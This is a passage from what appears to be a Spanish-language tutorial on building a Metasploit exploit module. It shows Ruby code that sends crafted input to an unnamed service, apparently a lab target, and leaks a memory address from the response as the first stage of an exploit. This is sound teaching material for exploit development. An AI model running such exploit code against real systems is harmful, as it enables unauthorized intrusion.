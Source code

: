 ```ruby
def exploit
  begin

    print "[*] Connecting...\n"
    connect 

    stage_one = "#{'A'*64}:#{'B'*64}\n"

    print "[*] Leaking profile address...\n"
    sock.put stage_one

    response = sock.get_once || '' 

    if response.length != 153
      print "[x] Unexpected response length; profile address may have null bytes.\n"
      raise 'Could not leak profile address'
    end

    profile_address = (response[-7..-2].bytes + [0, 0]).pack("C*").unpack("Q<").first

    print "[*] Leaked address: 0x#{profile_address.to_s(16)}\n"

  ensure
    print "[*] Disconnecting...\n"
    disconnect
    print "[*] Done.\n"
  end
end
```

Si realizamos los cambios, ejecutamos un reload en Metasploit, y ejecutamos el exploit nuevamente, deberíamos observar algo como lo siguiente:

![msf-infoleak](img/msf-infoleak.png)

